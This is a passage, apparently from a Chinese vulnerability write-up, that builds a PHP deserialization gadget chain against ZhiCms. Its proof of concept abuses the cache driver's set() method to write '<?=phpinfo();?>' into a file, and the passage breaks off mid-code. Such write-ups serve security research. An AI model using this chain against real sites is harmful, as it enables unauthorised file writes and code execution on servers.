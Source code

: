 ```php  
```  
内容就是传入的`$tpl`，接着调用`$this-&gt;cache-&gt;set()`方法，写入内容  
这里就利用`FileCacheDriver`类中的`set()`方法  
```php  
public function set($key, $value, $expire = 1800){		  
	$value = serialize($value);  
	$md5Sign = md5($value);  
	$expire = time() &#43; $expire;		  
	$content    = &#39;&lt;?php exit;?&gt;&#39; . sprintf(&#39;%012d&#39;, $expire) . $md5Sign . $value;		  
     
   return @file_put_contents($this-&gt;_getFilePath($key, true), $content, LOCK_EX);  
}  
```  
构造完整`poc`  
```php  
&lt;?php  
namespace ZhiCms\ext{  
    use ZhiCms\base\cache\MemcachedDriver;  
    use ZhiCms\base\Template;  
    class simple_html_dom{  
        public $nodes = array();  
        public function __construct(){  
            $this-&gt;nodes[] = new MemcachedDriver;  
        }  
    }  
    class simple_html_dom_node{  
        private $dom;  
        public function __construct(){  
            $this-&gt;dom-&gt;callback = array(new Template,&#39;display&#39;);  
        }  
    }  
    class Send {  
        public function __construct(){  
  
        }  
    }  
    echo urlencode(serialize(new simple_html_dom));  
}  
namespace ZhiCms\base\cache{  
    use ZhiCms\ext\simple_html_dom_node;  
    use ZhiCms\ext\Send;  
    class FileCacheDriver{  
        public function __construct(){  
    }  
    }  
    class MemcachedDriver{  
        protected $group = &#39;&#39;;   
        protected $mmc = NULL;  
        public function __construct(){  
            $this-&gt;group = new simple_html_dom_node;  
            $this-&gt;mmc = new Send();  
        }  
    }     
}  
  
namespace ZhiCms\base{  
    use ZhiCms\base\cache\FileCacheDriver;  
    class Template {  
        protected $vars = array();  
        protected $cache;  
        public function __construct(){  
            $this-&gt;vars=array(&#34;tpl&#34;=&gt;&#34;&lt;?=phpinfo();?&gt;&#34;,&#34;isTpl&#34;=&gt;false);  
```